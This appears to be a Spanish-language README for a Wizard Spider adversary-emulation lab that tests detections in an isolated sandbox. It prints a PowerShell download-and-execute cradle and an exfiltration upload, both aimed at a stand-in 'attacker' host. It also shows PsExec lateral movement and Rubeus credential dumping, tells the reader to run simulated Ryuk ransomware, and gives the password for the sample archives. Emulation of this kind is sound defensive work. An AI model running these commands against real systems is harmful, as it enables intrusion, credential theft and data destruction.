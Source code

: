 
# 📘 Fase 3: Emulación de Técnicas - Wizard Spider

Esta fase consiste en ejecutar técnicas específicas asociadas al adversario Wizard Spider, utilizando binarios conocidos en un entorno controlado para validar detecciones y comportamientos del sistema.

---

## 📁 Recursos

La carpeta `Resources/` del plan de emulación contiene los componentes necesarios para ejecutar técnicas relacionadas con el grupo APT Wizard Spider.

### 🔸 Contenido de la carpeta

- **Código fuente de software emulado**: 
  Algunos binarios están acompañados de su código fuente para fines educativos o de análisis.

- **Archivos ejecutables (binaries)**:
  Se encuentran empaquetados en archivos `.zip` protegidos por contraseña. Estos ejecutables simulan herramientas maliciosas reales utilizadas por Wizard Spider (e.g., Ryuk, TrickBot, Rubeus).

- **Archivo comprimido `Binaries.zip`**:
  Incluye todos los ejecutables de forma centralizada para facilitar su descarga y uso.

### 🔐 Contraseña de los archivos ZIP

La contraseña para todos los archivos `.zip` protegidos es:

```
malware
```

> ⚠️ Esto es una práctica común en la distribución de muestras maliciosas con fines de análisis, para evitar activaciones accidentales por antivirus o escaneos automáticos.

### 🧰 Script para descifrado automático

Se proporciona un script en Python para automatizar el proceso de descifrado de los ejecutables comprimidos.

#### ▶️ Uso del script:

```bash
$ cd wizard_spider
$ python3 Resources/utilities/crypt_executables.py -i ./ -p malware --decrypt
```

- `-i ./` : Directorio de entrada con los archivos ZIP.
- `-p malware` : Contraseña usada para descifrar.
- `--decrypt` : Ejecuta el proceso de desencriptado.

#### ✅ Resultado Esperado

Tras la ejecución del script, se obtiene acceso a los ejecutables listos para su uso durante la Fase 3 (Emulación de Técnicas).

---

## 🧪 Entorno de laboratorio

- Host: VirtualBox
- Máquinas virtuales:
  - Kali Linux (Attacker)
  - Windows 10 (ws1, ws2)
  - Windows Server 2019 (dc01)
- Red: Aislada o en modo interno (sin conexión a Internet)
- Herramientas activas:
  - Sysmon
  - Wireshark
  - Procmon
  - Event Viewer

---

## ⚙️ Paso 1: Emulación de PowerShell y servicios

### Objetivo:
Ejecutar comandos PowerShell utilizados por Wizard Spider para persistencia o ejecución remota.

```powershell
# Ejemplo: ejecución de payload desde memoria
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')"
```

---

## 🚪 Paso 2: Movimiento lateral con SMB/PsExec

### Objetivo:
Usar `PsExec` o equivalentes para moverse lateralmente entre máquinas.

```cmd
psexec.exe \10.0.0.8 -u Administrator -p Password cmd.exe
```

---

## 🔐 Paso 3: Credential Dumping con herramientas específicas

### Objetivo:
Extraer credenciales del sistema.

```cmd
# Rubeus - Kerberos credential extraction
rubeus.exe dump

# Dump de credenciales del navegador
dumpWebBrowserCreds.exe
```

---

## 📡 Paso 4: Comunicación con C2 y transferencia de archivos

### Objetivo:
Simular comunicación con Command & Control y transferencia de archivos.

```cmd
# Ejecutar Exaramel client
Exaramel-Windows.exe

# Utilizar TrickBot client simulado
TrickBotClientExe.exe
```

---

## 📤 Paso 5: Exfiltración de datos

### Objetivo:
Comprimir y enviar datos simulados a un servidor externo.

```powershell
Compress-Archive -Path C:\Users\Public\data -DestinationPath data.zip
Invoke-WebRequest -Uri http://attacker/upload -Method POST -InFile data.zip
```

---

## 💥 Paso 6: Impacto (Ransomware - Ryuk)

### Objetivo:
Simular un ataque de cifrado de archivos.

```cmd
# Ejecutar Ryuk simulado (solo en entorno controlado)
ryuk.exe
```

---

## 🛠️ Binarios utilizados

| Binario                         | Técnica Emulada                         |
|--------------------------------|-----------------------------------------|
| adfind.exe                     | Discovery (T1018)                        |
| dumpWebBrowserCreds.exe        | Credential Dumping (T1555)              |
| Exaramel-Windows.exe           | C2 Channel (T1071)                       |
| Exaramel-Windows-Dropper.exe   | Initial Access/Persistence (T1059)       |
| generate-files.exe             | Data Staging (T1074)                     |
| inject.x64.exe                 | Code Injection (T1055)                   |
| keylogger.exe                  | Input Capture (T1056.001)                |
| rubeus.exe                     | Credential Dumping (T1003)              |
| ryuk.exe / RyukTests.exe       | Impact (T1486)                           |
| TrickBotClientExe.exe          | Recon + Credential Access (T1056, T1082)|
| uxtheme.exe                    | Masquerading (T1036)                     |

---

## 📊 Recolección de Logs

- **Sysmon** para registro de procesos y red
- **Event Viewer** para eventos críticos
- **Wireshark** para tráfico de red
- **Procmon** para seguimiento de actividades en el sistema

---

## ✅ Resultado Esperado

- Validación de detección de TTPs en el entorno.
- Captura de evidencia para análisis forense.
- Documentación de alertas generadas por sistemas defensivos.

> ⚠️ **Nota:** Esta emulación no debe realizarse en entornos productivos. Asegúrate de estar en un entorno completamente aislado.
